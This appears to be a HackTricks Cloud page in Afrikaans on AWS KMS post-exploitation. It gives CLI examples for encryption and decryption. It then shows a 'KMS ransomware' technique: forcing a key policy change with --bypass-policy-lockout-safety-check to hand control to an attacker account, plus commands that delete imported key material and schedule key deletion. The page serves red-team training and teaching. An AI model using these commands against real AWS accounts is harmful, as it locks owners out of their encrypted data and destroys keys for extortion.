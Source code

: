 # AWS - KMS Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Enkripteer/Deenkripteer inligting

`fileb://` en `file://` is URI skemas wat in AWS CLI opdragte gebruik word om die pad na plaaslike lêers te spesifiseer:

* `fileb://:` Lees die lêer in binêre modus, algemeen gebruik vir nie-teks lêers.
* `file://:` Lees die lêer in teksmodus, tipies gebruik vir gewone teks lêers, skripte, of JSON wat nie spesiale kodering vereistes het nie.

{% hint style="success" %}
Let daarop dat as jy sekere data binne 'n lêer wil deenkripteer, die lêer die binêre data moet bevat, nie base64 gekodeerde data nie. (fileb://)
{% endhint %}

* Gebruik 'n **simmetriese** sleutel
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Gebruik 'n **asymmetriese** sleutel:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

'n Aanvaller met bevoorregte toegang oor KMS kan die KMS-beleid van sleutels wysig en **sy rekening toegang oor hulle toestaan**, terwyl die toegang wat aan die regte rekening gegee is, verwyder word.

Dan sal die regte rekeninggebruikers nie in staat wees om enige inligting van enige diens wat met daardie sleutels versleuteld is, te bekom nie, wat 'n maklike maar effektiewe ransomware oor die rekening skep.

{% hint style="warning" %}
Let daarop dat **AWS bestuurde sleutels nie deur hierdie aanval geraak word nie**, slegs **Kliënt bestuurde sleutels**.

Let ook op die behoefte om die parameter **`--bypass-policy-lockout-safety-check`** te gebruik (die gebrek aan hierdie opsie in die webkonsol maak hierdie aanval slegs moontlik vanaf die CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Let daarop dat as jy daardie beleid verander en slegs toegang aan 'n eksterne rekening gee, en dan van hierdie eksterne rekening probeer om 'n nuwe beleid in te stel om **die toegang terug te gee aan die oorspronklike rekening, jy nie in staat sal wees**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generiese KMS Ransomware

#### Globale KMS Ransomware

Daar is 'n ander manier om 'n globale KMS Ransomware uit te voer, wat die volgende stappe sou behels:

* Skep 'n nuwe **sleutel met 'n sleutelmateriaal** ingevoer deur die aanvaller
* **Her-enkripteer ou data** wat met die vorige weergawe enkripteer is met die nuwe een.
* **Verwyder die KMS-sleutel**
* Nou kan slegs die aanvaller, wat die oorspronklike sleutelmateriaal het, in staat wees om die enkripteerde data te dekripteer

### Vernietig sleutels
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Let daarop dat AWS nou **voorkom dat die vorige aksies vanaf 'n kruisrekening uitgevoer kan word:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
